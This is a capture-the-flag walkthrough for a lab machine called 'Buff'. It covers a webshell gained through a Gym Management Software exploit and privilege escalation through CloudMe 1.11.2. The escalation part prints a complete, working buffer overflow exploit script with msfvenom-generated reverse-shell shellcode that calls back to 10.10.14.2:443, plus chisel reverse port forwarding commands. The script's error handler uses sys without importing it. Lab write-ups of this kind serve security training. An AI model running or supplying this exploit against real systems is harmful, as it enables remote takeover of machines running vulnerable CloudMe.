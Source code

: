 # Buff

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (3039).png" alt=""><figcaption></figcaption></figure>

### Gym

On port 8080, it was a gym-related page:

<figure><img src="../../../.gitbook/assets/image (2910).png" alt=""><figcaption></figcaption></figure>

We can use `gobuster` on the website to find more directories:

<figure><img src="../../../.gitbook/assets/image (2698).png" alt=""><figcaption></figcaption></figure>

Checking the `contact.php` file, we see the software used to make this.

<figure><img src="../../../.gitbook/assets/image (3327).png" alt=""><figcaption></figcaption></figure>

Then, we can search for exploits for this Gym Management Software 1.0.

<figure><img src="../../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

We can try the RCE exploit:

{% embed url="https://www.exploit-db.com/exploits/48506" %}

By running the exploit, we would gain a webshell:

<figure><img src="../../../.gitbook/assets/image (1666).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can download `nc.exe` onto the machine via `smbserver.py`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1660).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3838).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### CloudMe

When enumerating the user's directory, we find a CloudMe\_1112.exe file:

```
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,564,353,536 bytes free
```

When checking for exploits regarding CloudMe, we can find a few Buffer Overflow exploits that can be used for RCE using shellcode.

<figure><img src="../../../.gitbook/assets/image (3181).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/48389" %}

CloudMe for this machine runs on port 8888 on this machine, so we can just run it and use chisel to port forward port 8888.

```bash
# on Kali
chisel server --port 4444 --reverse

# on host
.\chisel.exe client 10.10.14.2:4444 R:8888:localhost:8888
```

Then, we need to generate new shellcode for the exploit:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
{% endcode %}

The final script based on the PoC should look like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
payload = b""
payload += b"\xdb\xc0\xb8\x78\xb6\x92\xc4\xd9\x74\x24\xf4"
payload += b"\x5b\x29\xc9\xb1\x52\x31\x43\x17\x03\x43\x17"
payload += b"\x83\x93\x4a\x70\x31\x9f\x5b\xf7\xba\x5f\x9c"
payload += b"\x98\x33\xba\xad\x98\x20\xcf\x9e\x28\x22\x9d"
payload += b"\x12\xc2\x66\x35\xa0\xa6\xae\x3a\x01\x0c\x89"
payload += b"\x75\x92\x3d\xe9\x14\x10\x3c\x3e\xf6\x29\x8f"
payload += b"\x33\xf7\x6e\xf2\xbe\xa5\x27\x78\x6c\x59\x43"
payload += b"\x34\xad\xd2\x1f\xd8\xb5\x07\xd7\xdb\x94\x96"
payload += b"\x63\x82\x36\x19\xa7\xbe\x7e\x01\xa4\xfb\xc9"
payload += b"\xba\x1e\x77\xc8\x6a\x6f\x78\x67\x53\x5f\x8b"
payload += b"\x79\x94\x58\x74\x0c\xec\x9a\x09\x17\x2b\xe0"
payload += b"\xd5\x92\xaf\x42\x9d\x05\x0b\x72\x72\xd3\xd8"
payload += b"\x78\x3f\x97\x86\x9c\xbe\x74\xbd\x99\x4b\x7b"
payload += b"\x11\x28\x0f\x58\xb5\x70\xcb\xc1\xec\xdc\xba"
payload += b"\xfe\xee\xbe\x63\x5b\x65\x52\x77\xd6\x24\x3b"
payload += b"\xb4\xdb\xd6\xbb\xd2\x6c\xa5\x89\x7d\xc7\x21"
payload += b"\xa2\xf6\xc1\xb6\xc5\x2c\xb5\x28\x38\xcf\xc6"
payload += b"\x61\xff\x9b\x96\x19\xd6\xa3\x7c\xd9\xd7\x71"
payload += b"\xd2\x89\x77\x2a\x93\x79\x38\x9a\x7b\x93\xb7"
payload += b"\xc5\x9c\x9c\x1d\x6e\x36\x67\xf6\x9b\xcd\x69"
payload += b"\x04\xf4\xd3\x75\x09\xbf\x5d\x93\x63\xaf\x0b"
payload += b"\x0c\x1c\x56\x16\xc6\xbd\x97\x8c\xa3\xfe\x1c"
payload += b"\x23\x54\xb0\xd4\x4e\x46\x25\x15\x05\x34\xe0"
payload += b"\x2a\xb3\x50\x6e\xb8\x58\xa0\xf9\xa1\xf6\xf7"
payload += b"\xae\x14\x0f\x9d\x42\x0e\xb9\x83\x9e\xd6\x82"
payload += b"\x07\x45\x2b\x0c\x86\x08\x17\x2a\x98\xd4\x98"
payload += b"\x76\xcc\x88\xce\x20\xba\x6e\xb9\x82\x14\x39"
payload += b"\x16\x4d\xf0\xbc\x54\x4e\x86\xc0\xb0\x38\x66"
payload += b"\x70\x6d\x7d\x99\xbd\xf9\x89\xe2\xa3\x99\x76"
payload += b"\x39\x60\xa9\x3c\x63\xc1\x22\x99\xf6\x53\x2f"
payload += b"\x1a\x2d\x97\x56\x99\xc7\x68\xad\x81\xa2\x6d"
payload += b"\xe9\x05\x5f\x1c\x62\xe0\x5f\xb3\x83\x21"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

Afterwards, run it using `python3` and an administrator shell will spawn.

<figure><img src="../../../.gitbook/assets/image (774).png" alt=""><figcaption></figcaption></figure>

Rooted!
